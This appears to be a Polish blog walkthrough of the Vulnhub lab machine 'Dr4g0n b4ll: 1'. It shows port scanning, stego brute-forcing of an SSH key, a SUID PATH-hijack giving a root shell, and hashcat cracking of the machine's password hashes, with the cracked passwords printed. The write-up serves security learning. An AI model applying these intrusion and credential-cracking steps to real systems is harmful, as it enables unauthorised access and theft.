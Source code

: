 ```yaml
---
title: "Dr4g0n b4ll: 1"
excerpt: " "
comments: true
categories:
  - Hacking
tags:
  - Hacking
  - Vulnhub
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_2:
  - url: /assets/images/hacking/2021/07/01.jpg
    image_path: /assets/images/hacking/2021/07/01.jpg
  - url: /assets/images/hacking/2021/07/02.jpg
    image_path: /assets/images/hacking/2021/07/02.jpg
gallery3:
  - url: /assets/images/hacking/2021/07/03.png
    image_path: /assets/images/hacking/2021/07/03.png
gallery4:    
  - url: /assets/images/hacking/2021/07/04.png
    image_path: /assets/images/hacking/2021/07/04.png
gallery5:
  - url: /assets/images/hacking/2021/07/05.png
    image_path: /assets/images/hacking/2021/07/05.png
gallery6:
  - url: /assets/images/hacking/2021/07/06.png
    image_path: /assets/images/hacking/2021/07/06.png
---
```

# Wstęp
Wydany w połowie stycznia 2021 [Dr4g0n b4ll: 1](https://www.vulnhub.com/entry/dr4g0n-b4ll-1,646/), jak to autorzy wspominają, jest bardzo prostą maszyną. Jednak w maju utknąłem na niej w połowie, ponieważ wcześniej nie miałem do czynienia ze stenografią. Jedna po zaliczeniu paru podatnych obrazów, trochę wiedzy przybyło i spróbowałem jeszcze raz. Jak zwykle, żeby wszystko działało pod XCP-NG trzeba zmodyfikować [Grub-a](https://kerszl.github.io/hacking/xcp-ng-i-vulnhub/). Co do poziomu obrazów, to prostota prostocie nierówna, ostatnio też bawiłem się maszyną [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/), ale ona już dla mnie taka prosta nie była. Przypominała bardziej prawdziwą sytuację w jakiejś firmie, niż taką bajkową z zagadkami z filmów o hakerach. W trudniejszym dla mnie [Hack Me Please: 1](https://www.vulnhub.com/entry/hack-me-please-1,731/) niestety posiłkowałem się [solucją](https://nepcodex.com/2021/08/hack-me-please-walkthrough-vulnhub/), którą znalazłem na necie. Jest to inny typ zadania, Zagadki nie są rozmieszczone celowo, ale trzeba szukać ludzkich błędów i w programie. Bardziej to przypomina prawdziwe łamanie w świecie rzeczywistym.  Wracając do Dragon Ball-a, to jest ciekawy trik na końcu, który nieraz się wam może przydać, ale to na końcu 😃
{: .text-justify}
## Zaczynamy
Jak zwykle skanujemy porty Nmap-em. Możemy też użyć Nmap-a w Metasploicie. Ja wolę używać Metasploita, bo potem mam wszystkie: ip, hasła, otwarte porty w jednym miejscu.
{: .text-justify}
```bash
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.113
...
msf6 exploit(multi/handler) > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.113  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.113  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
Otwarte są tylko 2 porty: 22 i 80. Na Stronie www mamy zdjęcia z anime Dragon Ball.
## Analizujemy stronę
{% include gallery id="gallery1_2"  %}
To tylko ozdoba. Prawdziwa przygoda zaczyna się w kodzie strony. Na samym dole jest zakodowany napis:
{: .text-justify}
{% include gallery id="gallery3"  %}
Po trzykrotnym rozkodowaniu mamy napis **DRAGON BALL**:
```bash
echo -n VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09 | base64 -d
echo -n UkZKQlIwOU9JRUpCVEV3PQ== | base64 -d
echo -n RFJBR09OIEJBTEw= | base64 -d
DRAGON BALL
```
Jednak do kodowania napisów w **BASE64** radzę pisać **echo -n**. Komenda **echo NAPIS | base64** zakoduje string i dodatkowo znak nowej linii **0x0a**.
{: .text-justify}
{: .notice--info}
Skanowanie Gobusterem:
```bash
gobuster dir -u http://172.16.1.124 -w /usr/share/wordlists/dirb/common.txt
```
I mamy ciekawą rzecz w robots.txt:

http://172.16.1.124/robots.txt
{: .notice--info}
Ponownie rozkodowujemy:
```bash
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
echo -n ZVc5MUlHWnBibVFnZEdobElHaHBaR1JsYmlCa2FYST0K  | base64 -d
echo -n eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=  | base64 -d
you find the hidden dir 
```
Dostajemy komunikat, żeby szukać ukryty katalog. Jest tutaj:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/
{: .text-justify}
{: .notice--info}
Poniżej zawartość:
{: .text-justify}
{% include gallery id="gallery4"  %}

Możemy wejść na stronę, ale nic na niej nie zdziałamy, taka podpucha:
{: .text-justify}

http://172.16.1.113/DRAGON%20BALL/Vulnhub/login.html
{: .notice--info}
{% include gallery id="gallery6"  %}
Strona nie działa poprawnie, ale mamy login i jest ciekawy obrazek **aj.jpg**:
{: .text-justify}
## Czas się przyjrzeć obrazowi
{% include gallery id="gallery5"  %}
Rozkodujmy go:
{: .text-justify}
```bash
root@kali:/home/szikers/dr4g0n_b4ll# stegcracker aj.jpg
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which
will blast through the rockyou.txt wordlist within 1.9 second as opposed
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'aj.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: love
Tried 451 passwords
Your file has been written to: aj.jpg.out
love
```
Podglądamy co to za plik:
{: .text-justify}
```console
root@kali:/home/szikers/dr4g0n_b4ll# file aj.jpg.out
aj.jpg.out: OpenSSH private key
```
Mamy klucz, więc możemy się dostać do shella, spróbujmy z loginem **xmen**:
{: .text-justify}
```bash
ssh -i id_rsa xmen@172.16.1.113
```
## Lądujemy w Shellu
Działa.Mamy katalog **script**, ale poszukajmy plików, które mają ustawiony bit **suid**. Może się znajdzie coś interesującego:
{: .text-justify}
```console
xmen@debian:~/script$ find / -perm -4000 2> /dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```
Godna uwagi jest zawartość w: **/home/xmen/script/shell**
```console
xmen@debian:~$ ls script/ -lah
total 32K
drwxr-xr-x 2 root root 4.0K Jan  4  2021 .
drwxr-xr-x 5 xmen xmen 4.0K Aug  9 07:17 ..
-rw-r--r-- 1 root root   75 Jan  4  2021 demo.c
-rwsr-xr-x 1 root root  17K Jan  4  2021 shell
```
W **demo.c** widać krótki kod źródłowy. Program przechodzi na uprawnienia root-a i uruchamia program **ps**:
{: .text-justify}
```c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```
Czyli działa to tak:
{: .text-justify}
```console
xmen@debian:~/script$ ./shell
   PID TTY          TIME CMD
  5013 pts/0    00:00:00 shell
  5014 pts/0    00:00:00 sh
  5015 pts/0    00:00:00 ps
xmen@debian:~/script$
```
W kodzie programu nie mamy podanej całej ścieżki do **ps**, więc możemy to wykorzystać. Stwórzmy program **ps** w katalogu domowym:
{: .text-justify}
```bash 
file=/home/xmen/ps; touch $file && echo '/bin/bash' > $file && chmod +x $file
```
A następnie wyedytujmy zmienną **PATH**, żeby na początku szukała **ps** w naszym katalogu domowym:
{: .text-justify}
```bash
PATH="/home/xmen:$(echo $PATH)"
```
```console
xmen@debian:~/script$ echo $PATH
/home/xmen:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
xmen@debian:~/script$ ./shell
root@debian:~/script# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
root@debian:~/script#
```
I to właśnie jest przestroga, żeby bardzo uważnie pisać pliki, jeżeli chcemy dać dla nich uprawnienia **suid**. **Ps** przecież jest niegroźny, ale można zakombinować i zrobić, żeby był niebezpieczny.
{: .text-justify}
{: .notice--danger}
## Na koniec deser
Skoro mamy root-a to możemy złamać hasła użytkowników. Zobaczmy czy nam się uda:
```cmd
c:\temp\hashcat611>hashcat.exe -O -a0 -m1800 dr4g0n_b4ll.hash rockyou.txt --show
$6$ryGtS7NFOo0fL3Bz$DgubBE9c3PT1jO/PwcZN6/L9ryVrSE5YrOFW.OAt61lTltdvpqXiUJAMowAteKrHr4Dzo9aC3mP2KTLvmgsBl1:ajs
$6$LE/lm1ySj7zuJI08$JgfeDLBfd.ANiXAsAnAterH5wvNXbSrexGNfD8hGbJJiObtkVcly.Y.iCjWAO.T7WnzvKeFjV09yL/KQ/6j.g/:mrxmen
$6$rGpU.19PmreHrE2a$RD.cGy7WmrdLMdQSDiclKK/iYz95W8OUhujLWtTHloFXS/sNLwrb12yGkDvpZ60u73pa2k8m5PxZhhEjGZa.x.:love
```
No i mamy 3 hasła, w tym Root-a. Co tu robi konsola windowsowa? Ano używam Hashcata na Windowsie, ze względu na kartę graficzną, która bardzo przyśpiesza rozkodowywanie **hashy**.
